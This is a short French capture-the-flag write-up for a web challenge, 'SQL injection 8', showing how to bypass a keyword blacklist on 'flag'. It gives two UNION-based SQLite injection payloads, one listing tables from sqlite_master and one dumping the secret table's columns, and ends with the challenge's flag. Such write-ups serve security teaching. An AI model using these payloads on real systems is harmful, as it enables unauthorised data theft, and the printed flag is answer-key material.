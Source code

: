 # SQL injection 8

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce huitième et dernier défi d'injection SQL, on utilise le même code backend que celui du défi SQL injection 6. Il y a une table secrète qui contient une colonne "flag". Cependent, le mot "flag" est dans la blacklist. Il est complètement interdit. En d'autres termes, la requête SQL ne sera pas exécutée du tout si le mot est détecté. 

## Setup

Requirements:
- BurpSuite

# Writeup

Nom de la table:
`" union select 1,2,name from sqlite_master--`

Résultat: cKretTblName

Donc, on l'utilise dans la requête suivante: 
`" union select 1,* from cKretTblName--`

Dans ce cas, `1,*` deviendra `1, id, flag`. Comme `flag` est dans le dernier champs, c'est lui qui sera utilisé comme mot de passe.

Le flag obtenu: `FLAG-a7541918ece21a8dc17a3dc9bae1f23bYoureTheBoss`
